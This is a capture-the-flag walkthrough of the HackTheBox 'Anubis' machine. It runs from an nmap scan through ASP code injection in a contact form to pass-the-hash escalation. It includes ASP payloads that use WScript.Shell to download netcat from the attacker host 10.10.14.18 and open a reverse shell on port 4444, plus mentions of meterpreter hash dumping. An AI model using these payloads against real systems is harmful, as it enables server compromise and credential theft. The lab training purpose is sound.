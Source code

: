 # HackTheBox-Anubis

## NMAP

```bash
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
443/tcp   open  ssl/http      syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                               
|_http-title: Not Found                                 
| ssl-cert: Subject: commonName=www.windcorp.htb
| Subject Alternative Name: DNS:www.windcorp.htb                          
| Issuer: commonName=www.windcorp.htb                                     
| Public Key type: rsa                 
| Public Key bits: 2048                                                   
| Signature Algorithm: sha256WithRSAEncryption                            
| Not valid before: 2021-05-24T19:44:56                                   
| Not valid after:  2031-05-24T19:54:56                                           |_  http/1.1                         
445/tcp   open  microsoft-ds? syn-ack ttl 127                             
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49715/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC          
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
Host script results:                 
|_clock-skew: mean: 0s, deviation: 0s, median: 0s                         
| p2p-conficker:                     
|   Checking for Conficker.C or higher...                                 
|   Check 1 (port 29263/tcp): CLEAN (Timeout)                             
|   Check 2 (port 29705/tcp): CLEAN (Timeout)                             
|   Check 3 (port 30756/udp): CLEAN (Timeout)                             
|   Check 4 (port 64422/udp): CLEAN (Timeout)                             
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled and required                                
| smb2-time:                         
|   date: 2021-08-15T05:00:49                                             
|_  start_date: N/A                  
     
```

## PORT 139/445 (SMB)

We can see that smb is running but we can't access any shares as `anonmyous`

<img src="https://i.imgur.com/eXksWle.png"/>

So let's move on to https

## PORT 443 (HTTPS)

If we try to visit https we would get 404 not found , but looking at nmap scan we can see that from the ssl certificate it found a domain name `www.windcorp.htb` so let's add it in our `/etc/hosts` file

<img src="https://i.imgur.com/buM8rNf.png"/>

<img src="https://i.imgur.com/kBjuSF0.png"/>

<img src="https://i.imgur.com/9RzMln2.png"/>

I tried running `gobuster` to fuzz for files and directories but not found nothing interesting

<img src="https://i.imgur.com/qefrsPX.png"/>

So scrolled down and saw a Contact form where we can send message so , I intercepted the request to see if it actually sends a message

<img src="https://i.imgur.com/HqvGAr6.png"/>

<img src="https://i.imgur.com/lpGaxwq.png"/>

It's taking those input fields as GET parameter values in `save.php` and brings us to `preview.php` to ask for confirmation

<img src="https://i.imgur.com/lCRqOfK.png"/>

After that nothing happens, I ran `gobuster` again by specifiying `asp` extensions and saw that there's a file created `Test.asp` with message details that we gave

<img src="https://i.imgur.com/Rcgg2MA.png"/>

<img src="https://i.imgur.com/qcGWVIb.png"/>

We can see it's showing the message details that we inputted in the contact form in asp page (Active Server page) which is framework for building web pages for IIS (windows server), so we can try if we can include asp syntax , a basic syntax to check is 

```asp
<% Response.write("Hello") %>
```

Make sure to url encode it as you submit it through burp suite

<img src="https://i.imgur.com/gwyGrb1.png"/>

And it gets rendered , we can try to supply a wrong syntax

<img src="https://i.imgur.com/oPtRTG3.png"/>

So we defaintely can run any asp syntax or even run a vbs script here , in order to get command execution we can do something like this

https://www.tek-tips.com/viewthread.cfm?qid=180982

```asp
<%

Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd /c ping 10.10.14.18 ", 1, True

%>

```

<img src="https://i.imgur.com/1a39hNX.png"/>

<img src="https://i.imgur.com/Y1DApHo.png"/>

Now we have a command execution and we can simply just upload a netcat executable for windows in `C:\Windows\Temp` and then call that to get a reverse shell


```
<%

Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd /c curl http://10.10.14.18/nc64.exe -o C:\Windows\Temp\nc.exe ", 1, True

%>

```

<img src="https://i.imgur.com/NXcMV3y.png"/>

<img src="https://i.imgur.com/6Ix94FU.png"/>

It made a request for downloading netcat so we now just need to execute it

```
<%

Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd /c C:\Windows\Temp\nc.exe 10.10.14.18 4444 -e cmd.exe ", 1, True

%>

```

<img src="https://i.imgur.com/ZLlDpqZ.png"/>

<img src="https://i.imgur.com/ALP6CKq.png"/>

Even tho we are `authoirty\system` but the hostname is `webserver01` , we can the IP address from which it seems we are in containered environment

<img src="https://i.imgur.com/bbO1X7d.png"/>

We need to break out of this containered environment windows server , so looking at the users we see `containered` user and administrator

<img src="https://i.imgur.com/W1tFHIo.png"/>

But there isn't anything in those directory other than `req.txt` in `Administrator`'s  folder

<img src="https://i.imgur.com/aXgtaN1.png"/>

<img src="https://i.imgur.com/JWsSRqL.png"/>

This looks like a ssl certificate so we can use any online tool to decode it into clear text form

https://certlogik.com/decoder/

<img src="https://i.imgur.com/H9e3Gu7.png"/>

We get a subdomain `softwareportal.windcorp.htb`

172.23.176.172  - ip
172.23.176.1 -dg 
172.23.191.255
1..255 | % {echo "172.23.191.$_"; ping -n 1 -w 100 172.23.191.$_} | Select-String ttl

## Uninteded Way

We could get a meterpreter shell and dump the hashes through it 

<img src="https://i.imgur.com/hMRIgcU.png"/>

On dumping we can see some hashes and this is kinda rare to see that we can do pass the hash attack here with Administrator user by trying the `iisadmin` hash

<img src="https://i.imgur.com/Wk9bOd6.png"/>

We get a `Pwn3d!` which means that we can now get a shell

<img src="https://i.imgur.com/Fxlz5lI.png"/>

Doing `whoami` through this shell

<img src="https://i.imgur.com/4FQ8gTj.png"/>

Or we could use `metasploit` without needing impacket scripits, there's a psexec module in metasploit that we can use to get a shell

<img src="https://i.imgur.com/qEHGx5j.png"/>

<img src="https://i.imgur.com/xXQLoVA.png"/>

<img src="https://i.imgur.com/uy5t0j4.png"/>

To get a fully functional meterpreter shell we need to upload the meterpreter payload and execute it so , upload the payload , start another meterpreter listener

<img src="https://i.imgur.com/RW8FrMI.png"/>

<img src="https://i.imgur.com/kgy0d9T.png"/>
We can dump hashes using `hashdump` and see that the Administrator's hash does match with `iisadmin`

We got root on the actual host machine with uninteded which would get patched so in the end intended is always the way 
